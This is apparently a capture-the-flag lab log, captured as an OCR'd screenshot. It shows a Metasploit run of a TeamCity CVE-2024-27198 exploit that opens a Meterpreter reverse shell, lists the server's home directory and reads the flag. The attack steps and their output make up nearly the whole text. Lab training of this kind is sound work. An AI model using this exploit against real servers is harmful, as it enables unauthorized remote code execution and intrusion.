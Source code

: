 
Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.9.0.254       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > run

[*] Started reverse TCP handler on 10.9.0.254:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.a2R4a2lGZ2g2ZUFWQUsyU1lIOEo3QUdtQVYw.MTU3NDhkMzAtZTM1ZC00YWI2LThjNTktODExNTUxZjFmNDg2
[*] Uploading plugin: UoPScswU
[*] Sending stage (57971 bytes) to 10.10.25.146
[*] Deleting the plugin...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_UoPScswU
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/UoPScswU
[*] Meterpreter session 1 opened (10.9.0.254:4444 -> 10.10.25.146:52594) at 2025-01-30 13:18:26 +0100
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/UoPScswU' on the target

meterpreter > ls
Listing: /opt/teamcity/TeamCity/bin
===================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  4096  dir   2025-01-30 10:54:01 +0100  .BuildServer
000667/rw-rw-rwx  0     fif   2025-01-30 10:53:22 +0100  .bash_history
100667/rw-rw-rwx  220   fil   2020-02-25 13:03:22 +0100  .bash_logout
100667/rw-rw-rwx  3771  fil   2020-02-25 13:03:22 +0100  .bashrc
040777/rwxrwxrwx  4096  dir   2024-07-02 11:39:13 +0200  .cache
040777/rwxrwxrwx  4096  dir   2025-01-30 12:05:51 +0100  .config
040777/rwxrwxrwx  4096  dir   2024-07-02 11:40:18 +0200  .local
100667/rw-rw-rwx  807   fil   2020-02-25 13:03:22 +0100  .profile
100667/rw-rw-rwx  66    fil   2024-07-02 11:59:35 +0200  .selected_editor
040777/rwxrwxrwx  4096  dir   2024-07-02 11:38:50 +0200  .ssh
100667/rw-rw-rwx  0     fil   2024-07-02 11:39:21 +0200  .sudo_as_admin_successful
100667/rw-rw-rwx  214   fil   2024-07-02 11:46:35 +0200  .wget-hsts
100666/rw-rw-rw-  4829  fil   2024-07-02 16:55:04 +0200  config.log
100666/rw-rw-rw-  38    fil   2024-07-02 12:05:47 +0200  flag.txt

meterpreter > cat flag.txt 
THM{faa9bac345709b6620a6200b484c7594}
meterpreter > 



<\code>
